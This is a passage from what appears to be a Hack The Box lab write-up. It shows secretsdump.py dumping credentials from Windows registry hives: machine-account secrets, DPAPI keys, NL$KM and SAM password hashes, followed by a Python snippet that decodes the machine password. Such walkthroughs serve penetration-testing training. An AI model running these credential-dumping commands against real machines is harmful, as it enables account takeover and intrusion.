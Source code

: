 ```
root@kali:$MACHINE.ACC:plain_password_hex:8b1e2ebd9c3241175d90c016c9fc96852f21870a22921266cb360023620822797e7a5f519dd558441b2a917fa5ea4e6144e147466ab43b37a9e1d4ed566e588a0d2967c5ccfca4a005b522a2c2a56e5731d24ff80f4546a495e00f655acf350edbd61dfdcd18e5a461ca188727b4e8f5bc95b93758711d2870d87531583906961f1223d4ac5c2abbc72eb75f9f05adf8cf7c2099de11efcaab5f6af84349dfcfd2a9860ec6a58fc51124b4aabd1316bf20b279d7eacea138a0d996a43521b8102957df0162896e9def22413b7921892034b0d8fc543bcce540f559bc043716f71cd3860b7166f32922f491cd4db931f9
root@kali:$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:32edad1d27e9ccaeb101700abc817083
[*] DPAPI_SYSTEM
dpapi_machinekey:0x14af28a044205b29fa287ffe035ce80102d09125
dpapi_userkey:0x88e6521c1ff9c47e1f9a3404fd64f5753d55e5b2
[*] NL$KM
 0000   BC E0 99 9D 97 B6 E7 9D  3C B1 0F E7 4E 01 C8 DE   ........<...N...
 0010   07 E2 02 7F 6C 29 01 D0  78 33 49 F3 DA A8 F5 28   ....l)..x3I....(
 0020   DD 37 D3 B2 91 9B 7D 68  0B 09 E3 5C 52 AE 71 7C   .7....}h...\R.q|
 0030   40 A9 85 15 6B 48 37 EE  87 82 3E 6D B0 25 89 6B   @...kH7...>m.%.k
NL$KM:bce0999d97b6e79d3cb10fe74e01c8de07e2027f6c2901d0783349f3daa8f528dd37d3b2919b7d680b09e35c52ae717c40a985156b4837ee87823e6db025896b
[*] Cleaning up...
```

And boom, DEV is Pwn3d!

[![cme-dev-pwn3d.png](/assets/images/htb/endgames/hades/cme-dev-pwn3d.png)](/assets/images/htb/endgames/hades/cme-dev-pwn3d.png)
{:.center-image}

Here is what it looks like when secretsdump.py is used without the SECURITY hive, btw:

```
root@kali:$ secretsdump.py -sam sam.hive -system system.hive LOCAL
[*] Target system bootKey: 0xe4b2298c95677ce18cd2198b9a36c7df
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:67bb396c79f56301b7dc5d219cc85d86:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
loginus:1000:aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f:::
[*] Cleaning up...
```

Sometimes you may be lucky to find the `$MACHINE.ACC` part decrypted, then you can [decode](https://github.com/SecureAuthCorp/impacket/blob/760cb1ea3e002c2d0d650b8b05050386735ccfd4/impacket/examples/secretsdump.py#L1567) it from HEX to UTF-8 like this:

```python
>>> from binascii import unhexlify
>>> unhexlify(x).decode('utf-16-le', 'replace').encode('utf-8', 'replace').decode()
>>> len(unhexlify(x).decode('utf-16-le', 'replace').encode('utf-8', 'replace').decode())
120
```

### Refs
